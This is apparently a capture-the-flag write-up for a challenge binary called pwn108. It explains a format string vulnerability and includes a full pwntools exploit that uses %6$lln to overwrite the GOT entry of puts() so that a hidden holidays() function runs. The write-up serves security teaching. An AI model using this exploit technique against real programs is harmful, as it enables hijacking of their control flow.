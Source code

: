 Here we see format string vulnerability.

<p align="center"> <img src="assets/Untitled%2042.png"> </p>

Using a format string we overwrite the GOT (Global Offset Table) on a non-PIE binary.

We replace the address of puts() in the GOT with the address of the hidden function holidays().

1. We inject in the first buffer the address of puts() in the GOT
2. We use %<int>s  to make printf()  print <address of holidays()> bytes.
3. With %6$lln we overwrite the address of puts() in the GOT with the address of holidays(). We know the latter because the binary is not a PIE.
    - %6$lln writes the number of bytes written so far for the format string in the variable pointed by the positional parameter. 6 is for using the address stored in the first buffer, which points to puts() in the GOT
    

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

exe = './pwn108.pwn108'
binary = context.binary = ELF(exe,checksec=False)

def start(argv=[], *a, **kw):
	if args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else:
		return process([exe] + argv, *a, **kw)
io = start()

puts_got = binary.got['puts']
holiday = binary.symbols['holidays']

io.recvuntil(b"name]: ")
io.sendline(p64(puts_got))

io.recvuntil(b"No]: ")
io.sendline(b"%" + str(holiday).encode("utf-8") + b"s%6$lln")

io.interactive()
```
